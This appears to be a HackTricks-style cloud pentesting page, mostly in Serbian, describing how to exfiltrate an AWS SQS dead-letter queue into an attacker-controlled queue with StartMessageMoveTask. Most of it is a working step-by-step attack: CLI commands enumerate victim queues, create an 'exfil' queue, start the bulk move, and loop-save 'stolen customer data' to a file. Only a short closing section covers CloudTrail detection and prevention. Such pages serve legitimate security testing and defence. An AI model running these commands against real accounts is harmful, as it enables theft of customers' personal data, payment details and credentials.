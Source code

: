 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## Opis

Iskoristite SQS message move tasks da ukradete sve akumulirane poruke iz žrtvinog Dead-Letter Queue (DLQ) preusmeravanjem u attacker-controlled queue koristeći `sqs:StartMessageMoveTask`. Ova tehnika zloupotrebljava legitimnu AWS funkciju za oporavak poruka kako bi eksfiltrirala osetljive podatke koji su se tokom vremena nakupili u DLQ-ovima.

## Šta je Dead-Letter Queue (DLQ)?

Dead-Letter Queue je posebna SQS queue u koju se poruke automatski šalju kada glavna aplikacija ne uspe da ih obradi. Te neuspešne poruke često sadrže:
- Osetljive podatke aplikacije koje nije bilo moguće obraditi
- Detalje o greškama i informacije za debug
- Personal Identifiable Information (PII)
- API tokene, kredencijale ili druge tajne
- Poslovno-kritične podatke o transakcijama

DLQ-ovi služe kao "groblje" za neuspele poruke, što ih čini vrednim ciljevima jer se u njima tokom vremena nagomilavaju osetljivi podaci koje aplikacije nisu mogle pravilno da obrade.

## Scenario napada

**Primer iz stvarnog sveta:**
1. **E-commerce aplikacija** obrađuje narudžbine kupaca putem SQS-a
2. **Neke narudžbine ne uspevaju** (problemi sa naplatom, zalihe, itd.) i premeštaju se u DLQ
3. **DLQ se nagomilava** nedeljama/mesecima sa neuspelim narudžbinama koje sadrže podatke o kupcima: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Napadač dobija pristup** AWS kredencijalima sa SQS dozvolama
5. **Napadač otkriva** da DLQ sadrži hiljade neuspelih narudžbina sa osetljivim podacima
6. **Umesto pokušaja pristupa pojedinačnim porukama** (spor i očigledan), napadač koristi `StartMessageMoveTask` da u bulk-u prebaci SVE poruke u svoj queue
7. **Napadač izvlači** sve istorijske osetljive podatke u jednoj operaciji

## Zahtevi
- Izvorna queue mora biti konfigurisana kao DLQ (referencirana bar od strane jedne queue kroz RedrivePolicy).
- IAM dozvole (izvršava se kao kompromitovani victim principal):
- Na DLQ-u (izvor): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Na destination queue: dozvola za isporuku poruka (npr. queue policy koja dozvoljava `sqs:SendMessage` od kompromitovanog principala). Za destinacije unutar istog account-a ovo je obično dozvoljeno podrazumevano.
- Ako je SSE-KMS omogućen: na source CMK `kms:Decrypt`, i na destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Uticaj
Eksfiltracija osetljivih payload-ova nagomilanih u DLQ-ovima (neuspešni eventi, PII, tokeni, payloadi aplikacija) velikom brzinom koristeći native SQS API-je. Radi cross-account ako destination queue policy dozvoljava `SendMessage` od victim principala.

## Kako zloupotrebiti

- Identifikujte ARN žrtvinog DLQ-a i osigurajte da je zaista referenciran kao DLQ od strane neke queue (bilo koja queue je dovoljno).
- Napravite ili izaberite attacker-controlled destination queue i dobijte njen ARN.
- Pokrenite message move task sa žrtvinog DLQ-a na vašu destination queue.
- Pratite progres ili otkažite po potrebi.

### CLI primer: Eksfiltracija podataka kupaca iz E-commerce DLQ

**Scenario**: Napadač je kompromitovao AWS kredencijale i otkrio da e-commerce aplikacija koristi SQS sa DLQ-om koji sadrži neuspele pokušaje obrade narudžbina kupaca.

1) **Pronađite i ispitajte žrtvin DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Kreirajte attacker-controlled destination queue**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Izvrši bulk message theft**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Prikupi ukradene osetljive podatke**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Napomene za pristup između naloga
- Odredišna queue mora imati resource policy koja omogućava žrtvinom principal-u `sqs:SendMessage` (i, ako se koristi, KMS grants/permissions).

## Zašto je ovaj napad efikasan

1. **Legitimna AWS funkcionalnost**: Koristi ugrađenu AWS funkcionalnost, što otežava otkrivanje kao zlonamerno
2. **Masovna operacija**: Prenosi hiljade poruka brzo umesto sporog pojedinačnog pristupa
3. **Istorijski podaci**: DLQs akumuliraju osetljive podatke tokom nedelja/meseci
4. **Ispod radara**: Mnoge organizacije ne prate pristup DLQ-ovima pažljivo
5. **Mogućnost cross-account**: Može exfiltrirati u napadačev AWS nalog ako dozvole to omogućavaju

## Otkrivanje i prevencija

### Otkrivanje
Pratite CloudTrail za sumnjive API pozive `StartMessageMoveTask`:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Prevention
1. **Least Privilege**: Ograničite dozvole `sqs:StartMessageMoveTask` samo na neophodne uloge
2. **Monitor DLQs**: Podesite CloudWatch alarme za neuobičajenu aktivnost DLQ-a
3. **Cross-Account Policies**: Pažljivo pregledajte SQS queue policies koje omogućavaju pristup između naloga
4. **Encrypt DLQs**: Koristite SSE-KMS sa ograničenim politikama ključeva
5. **Regular Cleanup**: Ne dozvolite da se osetljivi podaci neograničeno nakupljaju u DLQ-ima

{{#include ../../../banners/hacktricks-training.md}}
